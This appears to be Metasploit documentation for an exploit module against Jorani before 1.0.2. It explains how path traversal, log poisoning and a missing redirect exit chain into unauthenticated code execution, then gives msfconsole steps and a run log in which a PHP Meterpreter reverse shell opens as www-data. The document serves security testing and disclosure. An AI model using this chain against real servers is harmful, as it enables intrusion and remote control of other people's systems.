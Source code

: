 ## Vulnerable Application

Jorani prior to 1.0.2 allows unauthenticated users to execute arbitrary code.

This is due to a lack of sanitization on the language parameter, which can lead to the file inclusion of arbitrary ".php" files.

Moreover, the log file for jorani ends with ".php" in Jorani < 1.0.2.

Log poisoning is possible, an attacker can abuse this to store malicious data in the log file.

Data like '<?php ...;?>' can been added to the log file, then if this file is included by php, it will be executed.

Finally, the controller responsible for recovering a page doesn't properly redirect requests made by Ajax.

So the scripts will not stop after the redirection because an exit statement is missing.

Because of this, the attacker can make the script continue and reach the LFI vulnerability without being authenticated.

So by chaining theses 3 vulnerabilities an unauthenticated user can execute arbitrary code on the application.

This module has been tested successfully on Jorani 1.0.0, Ubuntu 20.04 (x86_64) with kernel version 5.15.0-75.

## Verification Steps
1. Start `msfconsole`
2. `use exploit/multi/php/jorani_path_trav`
3. set `RHOSTS` and `RPORT`
4. Confirm the target is vulnerable: `check`. The result expected is `The target appears to be vulnerable.`
5. Default payload for the exploit will be `php/meterpreter/reverse_tcp`
6. set `LHOST`
7. `exploit`
8. Confirm you have now a cmd session as www-data

## Options

### TARGETURI (optional)
The path to the jorani website. By default it is empty.

## Scenarios

```
msf6 exploit(multi/php/jorani_path_trav) > show options

Module options (exploit/multi/php/jorani_path_trav):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.31.3.3       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path of Jorani
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.31.3.1       yes       The listen address (an interface may be specified)
   LPORT  9898             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Jorani < 1.0.2



View the full module info with the info, or info -d command.
```

```
msf6 exploit(multi/php/jorani_path_trav) > run

[-] Handler failed to bind to 172.31.3.1:9898:-  -
[*] Started reverse TCP handler on 0.0.0.0:9898
[*] Trying to exploit LFI
[*] Recovering CSRF token
[+] CSRF found: 3ff4c712b884e3f577d9c3f65adac16f
[*] Poisonning log with payload..
[*] Sending 1st payload
[*] Including poisonned log file log-2023-06-27.php
[+] Triggering payload
[*] Sending stage (39927 bytes) to 10.0.2.2
[*] Meterpreter session 1 opened (10.0.2.15:9898 -> 10.0.2.2:46898) at 2023-06-27 19:21:28 +0200

meterpreter > getuid 
Server username: www-data
```

